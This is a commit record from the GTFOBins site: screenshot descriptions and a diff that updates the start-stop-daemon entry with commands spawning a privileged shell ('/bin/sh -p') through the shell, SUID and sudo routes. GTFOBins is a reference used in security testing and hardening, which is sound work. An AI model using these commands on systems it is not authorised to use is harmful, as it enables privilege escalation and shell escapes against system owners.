

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/start-stop-daemon.md, in a window 1280 px wide. Shown: the top 838 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
start-stop-daemon fixes

```diff
--- a/_gtfobins/start-stop-daemon.md
+++ b/_gtfobins/start-stop-daemon.md
@@ -1,15 +1,11 @@
 ---
 functions:
   shell:
-    - code: start-stop-daemon --start -x '/bin/sh'
+    - code: start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
   suid:
     - code: |
-        EDITOR=absolute_path_to_text_editor
-        LFILE=file_to_write
-        ./start-stop-daemon --start -x "$EDITOR" "$LFILE"
+        ./start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
   sudo:
     - code: |
-        EDITOR=absolute_path_to_text_editor
-        LFILE=file_to_write
-        sudo start-stop-daemon --start -x "$EDITOR" "$LFILE"
+        sudo start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
 ---
```
